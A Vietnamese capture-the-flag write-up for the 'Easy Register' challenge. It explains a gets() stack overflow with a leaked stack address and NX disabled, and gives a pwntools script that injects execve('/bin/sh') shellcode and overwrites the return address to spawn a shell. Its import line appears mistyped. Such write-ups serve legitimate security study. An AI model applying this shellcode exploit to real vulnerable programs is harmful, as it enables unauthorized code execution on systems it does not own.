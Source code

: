 # [Intigrity] Easy Register
<p>Dòng 8, hàm gets đọc chuỗi từ stdin không giới hạn độ dài vào v1 -> Buffer overflow. Dòng 5, in ra địa chỉ của v1 nằm trên stack.</p>

![alt text](/thanhlai/post/pwnable/image/post10/image.png)

<p>Cơ chế NX đang tắt -> Có thể thực thi shellcode trên stack. Lợi dụng việc leak địa chỉ v1 để kiểm soát RIP trỏ tới địa chỉ chứa shellcode.</p>

![alt text](/thanhlai/post/pwnable/image/post10/image-1.png)

<p>Đặt breakpoint ngay hàm printf đầu tiên trong hàm easy_register, ta có thể thấy hàm printf sẽ in ra địa chỉ sẽ ghi vào là 0x00007fffffffe260.</p>

![alt text](/thanhlai/post/pwnable/image/post10/image-2.png)

<p>Nhập chuỗi "laithanh" và đã được ghi chính xác vào địa chỉ 0x00007fffffffe260 -> Đây sẽ là nơi chứa shellcode để thực ghi execve("/bin/sh\0", 0, 0)</p>

![alt text](/thanhlai/post/pwnable/image/post10/image-4.png)

<p>Script exploit:</p>

```
from pwnable import *

p = process('./easy_register')

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi 
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch = 'amd64'
)

line = p.recvline_contains(b'Initialized attendee listing at').decode()
addr = int(line.split()[-1].strip('.'), 16)
print(f'Leaked: {(hex(addr))}')

payload = shellcode
payload += b"A" * (88 - len(shellcode))  
payload += p64(addr)  

p.sendlineafter(b'Hacker name > ', payload)

p.interactive()
```

<p>Chạy script và lấy được shell.</p>

![alt text](/thanhlai/post/pwnable/image/post10/image-3.png)
